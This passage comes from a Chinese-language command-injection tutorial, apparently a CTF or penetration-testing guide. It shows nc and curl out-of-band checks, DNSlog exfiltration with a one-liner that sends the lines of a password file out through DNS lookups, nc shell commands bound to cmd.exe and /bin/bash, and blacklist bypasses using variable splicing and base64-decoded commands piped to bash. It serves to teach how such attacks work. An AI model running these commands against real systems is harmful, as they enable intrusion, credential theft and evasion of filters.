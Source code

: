 例：我们在公网机上可以通过”nc -lv 端口号” 来监听该端口，当目标机”curl 公网机 ip: 端口号” 的时候，公网机的该端口可以发现有 http 请求过来。（注意：ping 命令不产生 http 请求）

#### DNSlog 外带

利用域名解析请求。

假设我们有个可控的二级域名，那么目标发出三级域名解析的时候，我们这边是能够拿到它的域名解析请求的，可以配合 DNS 请求进行命令执行的判断，这一般被称为 dnslog。（

要通过 dns 请求即可通过 ping 命令，也能通过 curl 命令，只要对域名进行访问，让域名服务器进行域名解析就可实现）

例：可以去 ceye.io 注册个账号，注册完后会给一个域名，如果有域名解析请求会有记录。

如得到的域名是 test.ceye.io，当有主机访问 1111. test.ceye.io 时，就会记录下来这个域名解析请求。其中`1111`可以替换成我们需要获取的信息。

如：`cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done`

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoQNv9FKIAMZtbic8jG9LvrU37VWe1ogCUw4NLQxCyTpXGgm9S8ZJeGtibiaSCo3v6Fuq7ChPUSjSnAQ/640?wx_fmt=png)

wireshark 抓的包中的数据：

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoQNv9FKIAMZtbic8jG9LvrUTJBmlR4DzWCEyun8eiaF0Zk3utGYoI8zuKWrwHPLQ1Q571SKc5g2AVQ/640?wx_fmt=png)

#### 反弹 shell

以上方法很有效，但能反弹 shell 更好 XD。

```
nc -L -p 9090-e cmd.exe (Windows)
nc -l -p 9090-e /bin/bash (*nix)
```

#绕过技巧
-----

### 一. 命令执行

#### 黑名单绕过

绕过黑名单主要有以下方法：

*   拼接
    

```
[root@localhost home]# a=ca;b=t;c=1; $a$b $c.txt
thisis your flag
```

*   base64 编码
    

```
[root@localhost home]#`echo "Y2F0IGZsYWc="|base64 -d`
thisis your flag
或者
[root@localhost home]# echo "Y2F0IGZsYWc="|base64 -d|bash
thisis your flag
```
